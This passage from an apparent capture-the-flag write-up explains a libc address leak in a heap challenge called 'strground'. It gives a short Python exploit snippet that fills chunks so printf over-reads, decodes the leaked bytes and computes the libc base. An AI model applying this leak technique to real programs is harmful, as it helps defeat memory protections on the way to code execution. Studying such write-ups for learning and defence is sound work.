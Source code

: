 ![heap4](/img/strground-writeup/heap4.png)

At `$rsp+0xa8` there is a libc address. We can leak this by allocating a chunk with `57` A's and the using the encode function. It works because the program uses printf that prints until a null byte.

{% highlight python %}
    add(b"A" * 57)
    add(b"B" * 0x40)
    add(b"C" * 0x40)
    add(b"D" * 0x20)

    libc_leak = encode_chunk(0).split(b"D" * 56)[1][:6]
    print(libc_leak)
    libc_leak = list(libc_leak)
    for i in range(len(libc_leak)):
        libc_leak[i] -= 3
        if libc_leak[i] < 0:
            libc_leak[i] += 256
    print(libc_leak)
    libc_leak = bytes(libc_leak)
    libc_leak = u64(libc_leak + b"\x00\x00")
    libc.address = libc_leak - 0x5e2741
    log.info(f"libc leak: {hex(libc.address)}")
{% endhighlight %}
